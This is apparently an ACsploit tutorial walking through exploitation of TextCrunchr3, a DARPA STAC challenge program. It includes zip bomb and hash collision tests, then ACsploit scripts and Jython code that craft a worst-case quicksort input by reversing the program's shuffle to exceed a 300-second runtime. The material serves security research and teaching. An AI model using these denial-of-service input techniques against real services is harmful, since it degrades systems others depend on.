






# Analyzing TextCrunchr3

## Problem Statement

`TextCrunchr3` is a program from Engagement 2 of the DARPA STAC program. (The STAC program, which birthed ACsploit, presents its performers with a series of Java programs containing algorithmic complexity vulnerabilities and challenge questions that specify the conditions under which the vulnerabilities must be exploited.) In this example we use ACsploit to identify and exploit a vulnerability.

The `textcrunchr_3.tar` archive in this directory contains a description of the challenge program (`description.txt`), the challenge program itself(`challenge_program/bin/textcrunchrhost_1`) as well as some example scripts to help a user interact with the vulnerable program (`examples/`). You can use these to follow along with this walkthrough at home.

The challenge question (`Question_011.txt`) that we are trying to answer is reproduced below:

```
Challenge Program:

    textcrunchr_3.jar

Challenge Question:

    Is there an algorithmic complexity vulnerability in time that would cause the challenge
    program's real runtime (on the reference platform) to exceed the resource usage limit
    given the input budget?

Additional background for question:

    None

Input Budget:

    Total size of input file (or files): 400000 bytes
    
Resource Usage Limit
    
    Runtime: 300 seconds
``` 
To use `TextCrunchr3` from the `textcrunchr_3` directory, run `./challenge_program/bin/textcrunchrhost_1 <file>`, where file can be a zip, bz2, or tar file.
From this point forward we are going to omit the paths to files and the `textcrunchrhost_1` program for brevity and assume that all commands are run from the acsploit directory.

## Identifying Attack Vectors

Looking at the source code for the program with JD-Gui, we note the custom classes `ZipDecompressor`, `HashMap`, and `Sorter`. ACsploit can generate potential exploits for all three.

(Note that if ACsploit's exploits fail, it does not prove that these classes do not have algorithmic complexity issues, but it does help us triage some of the most likely sources of vulnerabilities.)


## Checking for Zip Bomb Vulnerability

We use ACsploit's zip bomb exploit to generate a recursive zip bomb.



Then we run `textcrunchrhost_1 out.zip`

The output is `Warning: results may be incomplete due to zip decompression depth limit`

We can similarly use the zip bomb exploit to generate large single or multilayer bombs and verify that TextCrunchr3 handles these files appropriately.

Let's move on to a different attack vector.

## Checking for Hash Collision Vulnerability

We use ACsploit's Java hash collision generator to create a list of 10000 strings that all hash to 0 and save it to a file.

This time, we will use ACsploit's scripting capability. Save the following commands to `hash_script.txt`:

```
use hashes/collisions/java
set exploit.target_type image
set exploit.target 0
set exploit.hash_table_size 4294967296 # 2^32, size of Java int
set exploit.n_collisions 10000
set output file
set output.filename hashes.txt
run # this will take several minutes
```

`python acsploit.py --load-file hash_script.txt`



We compress this file with `zip -r hashes.zip hashes.txt`.

We run `textcrunchrhost_1 hashes.zip` and the program returns output within 5 seconds.

We note the size of our zip file is less than 100KB and our budget is 400KB, so we could increase the number of hashes and try again, but these initial results are discouraging enough that we elect to move on. We will return to the HashMap implementation if the rest of our search turns up empty.

## Checking for Sorting Vulnerability

The `Sorter.sort()` function contains a call to a custom quickSort function:

```
  public List<T> sort(Collection<T> stuff)
  {
    List<T> stuffList = new ArrayList(stuff);
    changingSort(stuffList, 0, stuffList.size() - 1);
    quickSort(stuffList, 0, stuffList.size() - 1);
    return stuffList;
  }
```

Let's look at ACsploit's quicksort exploit:



There are a few different type options for quicksort. We analyze the quickSort code and identify the implementation as lomuto. 

(If we were unsure which option to choose, we could try each of the options and see if any caused a performance impact.)

We generate 10000 strings and save them to `qsort.txt` with the following script:

```
use sort/quicksort
set exploit.type lomuto
set exploit.n_inputs 10000
set input.max_length 4
set output file
set output.filename qsort.txt
run
```

We want to isolate the `quickSort()` function from the rest of the sort function, which we will do using [Jython](http://www.jython.org). Jython allows us to interact with Java classes and objects in a Python environment.
Before starting Jython, make sure to set `python.security.respectJavaAccessibility = false` in the Jython registry file.

We first run a comparison of the runtime of `quickSort()` on ACsploit's input and the same input in a random order. Save the following script to `time_sort.py`:

```
import time
import random
import sys
sys.path.append('examples/STAC-textcrunchr_3/textcrunchr_3/challenge_program/lib/textcrunchr_3.jar')

from com.cyberpointllc.stac.sort import Sorter
from com.cyberpointllc.stac.sort import DefaultComparator

filename = sys.argv[1]
sorter = Sorter(DefaultComparator.STRING)
acsploit_input = []
with open(filename, 'r') as f:
    for line in f:
        acsploit_input.append(line.strip())

acsploit_copy = acsploit_input[:]
start = time.time()
sorter.quickSort(acsploit_input, 0, len(acsploit_input) - 1)
end = time.time()
print 'quickSort with ACsploit input took {} seconds'.format(end - start)

random.shuffle(acsploit_input)
start = time.time()
sorter.quickSort(acsploit_input, 0, len(acsploit_input) - 1)
end = time.time()
print 'quickSort with random input took {} seconds'.format(end - start)

start = time.time()
sorter.sort(acsploit_copy)
end = time.time()
print 'sort with ACsploit input took {} seconds'.format(end - start)
```

`jython time_sort.py qsort.txt`



We see the ACsploit output takes about 10 seconds for `quickSort()`, while the random input takes less than 1 second. We also note that the sort function with ACsploit input takes less than 1 second. We thus infer the `changingSort()` method shuffles the ordering of the ACsploit input so that it is no longer a worst case input.

We have our proof of concept, but we still need two things for a successful solution:

1. We need to pass input that will be shuffled into the ACsploit input order by `changingSort()`
2. We need to reach a runtime of 300 seconds

To resolve the first issue, we run the following Jython script to reverse the `changingSort()` function for our input and write the result to a file:

```
import sys
sys.path.append('examples/STAC-textcrunchr_3/textcrunchr_3/challenge_program/lib/textcrunchr_3.jar')

from com.cyberpointllc.stac.sort import Sorter
from com.cyberpointllc.stac.sort import DefaultComparator

infile = sys.argv[1]
outfile = sys.argv[2]
sorter = Sorter(DefaultComparator.STRING)
acsploit_input = []
with open(infile, 'r') as f:
    for line in f:
        acsploit_input.append(line.strip())

numeric_input = range(len(acsploit_input))
sorter.changingSort(numeric_input, 0, len(acsploit_input) - 1)

reverse_shuffle = [[]] * len(acsploit_input)
# changingSort moves elements from start_index to shuffled_index
# to reverse the process, we move acsploit_input at shuffled_index to start_index
for shuffled_index, start_index in enumerate(numeric_input):
    reverse_shuffle[start_index] = acsploit_input[shuffled_index]

with open(outfile, 'w') as f:
    f.write(' '.join(reverse_shuffle))
```

`jython reverse_shuffle.py qsort.txt malicious.txt`

We now have our malicious input saved as `malicious.txt`. It is only 50 KB, and `TextCrunchr3` accepts uncompressed files. Let's see how long this takes to run:

`time textcrunchrhost_1 malicious.txt`



This actually takes much longer than what we observed in Jython. As it turns out, `TextCrunchr3` performs more than one analysis on the input, which amplifies the effect of our payload.

However, we are still only at 80 seconds. To increase the runtime, we can double the number of inputs generated to 20000. We know quick sort is O( n^2 ) in the worst case. We expect the runtime to increase by roughly a factor of 4, from 80 seconds to over 300 seconds.
Let's generate a larger list with ACsploit and save it as qsort2.txt:

```
use sort/quicksort
set exploit.type lomuto
set exploit.n_inputs 20000
set input.max_length 4
set output file
set output.filename qsort2.txt
run
```

First run the above script with ACsploit, then use Jython to reorder the input to account for the changingSort function:

`jython reverse_shuffle.py qsort2.txt malicious2.txt`

Finally, we try our new input against `TextCrunchr3` and see if our solution has worked:

`time textcrunchrhost_1 malicious2.txt`



Success!
